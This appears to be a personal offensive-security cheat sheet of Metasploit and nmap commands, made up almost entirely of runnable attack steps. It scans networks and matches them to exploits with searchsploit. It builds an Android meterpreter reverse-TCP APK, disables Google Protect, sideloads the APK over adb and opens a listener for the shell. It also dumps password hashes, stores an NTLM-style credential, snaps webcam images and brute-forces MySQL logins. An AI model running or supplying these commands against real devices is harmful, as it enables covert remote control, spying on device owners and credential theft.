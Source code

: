 # OffSec  
  
## Network Analysis  

nmap -sn 192.168.1.*  
nmap {ips} -A -oX hosts.xml  
searchsploit --nmap hosts.xml --json 2>&1 | tee result.json  
  
nmap -T4 -A -v 192.168.1.1 -sV -oX hosts.xml  
searchsploit --nmap hosts.xml --json | tee router_hosts.json  
  
- Wireshark deauth packages:  
wlan.fc.type_subtype == 12  

## MSF 101  

msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.110.126 LPORT=4444 -o android_client.apk  
  
disable Google Protect  
adb connect 192.168.110.230  
adb push android_client.apk /storage/self/primary  
  
msfconsole  
set PAYLOAD multi/handler  
set LHOST 192.168.110.126  
set LPORT 4444  
exploit  
  
## MSF  

ddbb:  
systemctl start postgresql  
msfdb init  
db_status  
  
MSF Workspaces:  
workspace  
workspace lab3  
add -> workspace -a lab1  
del -> workspace -d lab1  
  
Other:  
db_nmap -A 192.168.1.1  (shitty snap integration)  
(from msf) db_nmap --unprivileged -T4 -A -Ao nmap_scans/scan_workspace.xml  
nmap -v -T4 -A -oA nmap_scans/%D.xml  
sudo chowm -R username nmap_scans/*.xml  
db_import ~/nmap_scans/*.xml  
  
List by:  
hosts (display scan)  
hosts -c address,os_flavor -S Linux (-c FILTER, -S search)  
services -c name,info -S http  
services -c name,info -p 445  
services -c port,proto,state -p 70-81  
  
Backup:  
db_export -f xml -a workspace_name  
db_import workspace_name  
services -s http -c port 172.16.194.134 -o /root/msfu/http.csv  
  
Credentials:  
creds  
(add) creds -a 172.16.194.134 -p 445 -u Administrator -P 7bf4f254b222bb24aad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e:::  
  
Loot i.e.:  
use post/linux/gather/hashdump  
run  
loot  (--add to save to ddbb, default just lists)  
  
Exploits:  
use  
show targets  
show payloads  
show options  
show advanced  
show evasion  
  
Meterpreter:  
webcam_list  
webcam_snap  
  
## Exploit i.e  

nmap -v -T4 -A -oA nmap_scans/%D.xml  
sudo chown -R username nmap_scans/*.xml  
db_import ~/nmap_scans/*.xml  

use mysql_login  
hosts  
hosts -S Linux -R  
